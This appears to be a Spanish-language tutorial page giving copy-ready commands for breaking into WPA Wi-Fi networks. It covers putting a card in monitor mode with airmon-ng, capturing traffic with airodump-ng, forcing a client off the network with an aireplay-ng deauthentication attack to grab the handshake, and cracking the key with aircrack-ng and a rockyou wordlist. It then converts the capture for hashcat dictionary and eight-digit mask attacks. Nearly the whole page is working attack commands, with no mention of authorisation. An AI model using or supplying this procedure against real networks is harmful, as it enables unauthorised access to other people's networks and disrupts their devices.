








1. Instalar Aircrack
Copiar
sudo apt-get install aircrack-ng
2. Activar modo monitor
Habilita la interfaz en modo monitor.
Copiar
sudo airmon-ng start wlan0
3. Liberar procesos
Evita conflictos con la tarjeta.
Copiar
sudo airmon-ng check kill
4. Escanear redes
Copiar
sudo airodump-ng wlan0

5. Guardar captura
Copiar
sudo airodump-ng wlan0 -w captura
6. Filtrar red
Copiar
sudo airodump-ng -c 6 --bssid XX:XX:XX:XX:XX:XX -w captura wlan0

7. Forzar handshake
Abrir otra terminal. Una terminal escuchando y otra terminal para
forzar la desconexion de un equipo de la red y asi capturar el handshake.
Copiar
sudo aireplay-ng -0 5 -a [MAC_AP] -c [MAC_CLIENTE] wlan0


8. Verificar handshake
Copiar
aircrack-ng captura-02.cap

9. Listar archivos "ls"

10. Diccionario
Copiar
sudo aircrack-ng -w /ruta/rockyou.txt -b [MAC_AP] captura-02.cap
11. Repetir
Volver al paso 2 si no hay handshake.
Siguiente
1. Actualizar la base de paquetes
Copiar
sudo apt update
2. Instala HCXTOOLS y verificar la instalación
Copiar
sudo apt install hcxtools
Copiar
which hcxpcapngtool
3. Conversión .CAP a .HC22000
Dirigirse a la ubicación donde se encuentre el archivo “.cap”
.Se extrae del .cap solo el material criptográfico mínimo para trabajar de
forma más eficiente.
Elimina ruido: descarta paquetes Wi-Fi que no sirven.
Archivo más chico: solo queda lo necesario para verificar contraseñas.
Más rápido: Hashcat trabaja directo, sin analizar paquetes.
Mejor compatibilidad: formato nativo (22000) para CPU/GPU.
Copiar
hcxpcapngtool -o ingrese_nombre.hc22000 nombre_archivo.cap

4. Ataque de Diccionario (Fuerza Bruta con Lista de Palabras)
Es el método más común. Necesitas un archivo de texto con posibles
contraseñas (wordlist).
Copiar
hashcat -m 22000 archivo_del_hash.hc22000 /ruta/al/diccionario.txt

5. Ataque de Máscara (Fuerza Bruta Pura)
Si no tienes un diccionario y quieres probar combinaciones específicas
(por ejemplo, si sabes que la clave tiene 8 números)
Copiar
hashcat -m 22000 archivo_del_hash.hc22000 -a 3 ?d?d?d?d?d?d?d?d
Volver